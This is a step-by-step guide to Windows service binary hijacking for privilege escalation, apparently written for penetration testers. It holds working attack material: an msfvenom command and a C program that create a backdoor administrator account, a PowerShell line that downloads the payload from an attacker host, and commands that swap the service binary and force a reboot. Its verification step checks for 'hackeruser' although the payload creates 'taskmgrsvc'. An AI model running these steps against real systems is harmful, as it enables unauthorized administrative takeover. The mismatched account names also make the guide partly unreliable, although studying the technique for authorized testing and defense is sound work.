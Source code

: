 ## Service Binary Hijacking

### Overview
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. 

A misconfiguration, where a service binary has **Full Control (F)** permissions for low-privileged users (e.g., BUILTIN\Users), allows attackers to replace the binary with a malicious executable. When the service restarts or the system reboots, the malicious binary will execute with the privileges of the service (e.g., LocalSystem).

---

### Step 1: Identify a Vulnerable File
Start by running **WinRecon.ps1** to locate services with weak permissions:

1. **Option 2**: Run Custom Recon - (Select which functions to enable)
2. **Option 17**: Enumerate files and services for **weak permissions**.

This will provide a list of binaries or services that have insecure permissions, such as Full Control for low-privileged users (e.g., BUILTIN\Users).

Example Output:
```plaintext
[+] Service: <service>
    Binary Path:<service_path>
    BUILTIN\Users:(F)
```
```plaintext
[+] Service: BackupService
    Binary Path:C:\backups\backupsvc.exe
    BUILTIN\Users:(F)
```

In this example, the binary `C:\backups\backupsvc.exe` has **BUILTIN\Users:(F)** permissions, making it a candidate for exploitation.

---

### Exploitation Stage

#### Step 2: Generate a Malicious Executable
-
  ### Option 1: Using msfvenom
  -
    On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

    ```bash
    msfvenom -p windows/exec CMD="cmd.exe /c net user taskmgrsvc Password123! /add && net localgroup administrators taskmgrsvc /add" -f exe-service -o adduser.exe
    ```
    - **Payload**: `windows/exec` runs arbitrary commands.
    - **Commands**: 
      - `net user taskmgrsvc Password123! /add`: Creates a new user `taskmgrsvc`.
      - `net localgroup administrators taskmgrsvc /add`: Adds `taskmgrsvc` to the Administrators group.
    - **Output**: The malicious binary is saved as `adduser.exe`.
-
  ### Option 2. Compile with the following C program:

  -
    ```c
    #include <stdlib.h>

    int main ()
    {
      int i;

      i = system ("net user taskmgrsvc Password123! /add");
      i = system ("net localgroup administrators taskmgrsvc /add");

      return 0;
    }
    ```   
    ```bash
    x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
    ```
---

#### Step 3: Transfer the Malicious Binary to the Target Machine
Start a Python HTTP server to host the malicious binary:

```bash
python3 -m http.server 80
```

On the target machine, download the malicious executable using PowerShell:

```powershell
iwr -uri http://<attacker_ip>/adduser.exe -OutFile adduser.exe
```

---

#### Step 4: Replace the Service Binary
1. Backup the original binary:
   ```powershell
   move <service_path> <file_name>.bak
   ```
2. Replace it with the malicious binary:
   ```powershell
   move .\adduser.exe <service_path>
   ```

Example:
```powershell
move C:\backups\backupsvc.exe backupsvc.exe.bak
move .\adduser.exe C:\backups\backupsvc.exe
```

---

#### Step 5: Restart the Service
1. **Stop the Service**:
   ```powershell
   net stop <service_name>
   ```
2. **Start the Service**:
   ```powershell
   net start <service_name>
   ```

Example:
```powershell
net stop BackupService
net start BackupService
```

If the service cannot be restarted manually due to insufficient permissions:

1. **Check Service Startup Type**:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
   ```
   Example:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupService'}
   ```
   Output:
   ```plaintext
   Name           StartMode
   ----           ---------
   BackupService  Auto
   ```

2. **Reboot the System**:
   Verify that the current user has the `SeShutdownPrivilege`:
   ```powershell
   whoami /priv
   ```
   Example Output:
   ```plaintext
   SeShutdownPrivilege           Shut down the system                 Enabled
   ```

   Reboot the machine:
   ```powershell
   shutdown /r /t 0
   ```

---

#### Step 6: Verify Exploitation
After the reboot or service restart, reconnect to the target machine and check if the user `hackeruser` has been added to the Administrators group:

```powershell
Get-LocalGroupMember administrators
```

**Output**:
```plaintext
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        <system_name>\Administrator Local
User        <system_name>\hackeruser    Local
```

Example:
```plaintext
User        TARGETSYSTEM\Administrator Local
User        TARGETSYSTEM\hackeruser    Local
```

The output confirms the addition of `hackeruser` to the local Administrators group.

---

### Cleanup
To restore the original state of the service:
1. Delete the malicious binary:
   ```powershell
   del <service_path>
   ```
2. Restore the original binary:
   ```powershell
   move <file_name>.bak <service_path>
   ```
3. Restart the service:
   ```powershell
   net stop <service_name>
   net start <service_name>
   ```

Example:
```powershell
del C:\backups\backupsvc.exe
move backupsvc.exe.bak C:\backups\backupsvc.exe
net stop BackupService
net start BackupService
```

---

### Notes:
- This method relies on services running with high privileges (e.g., LocalSystem).
- Always back up the original binary to prevent accidental service disruption.
- Avoid rebooting production systems during penetration tests without authorization.

---

### References
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

---

**End of Service Binary Hijacking Exploit Guide**
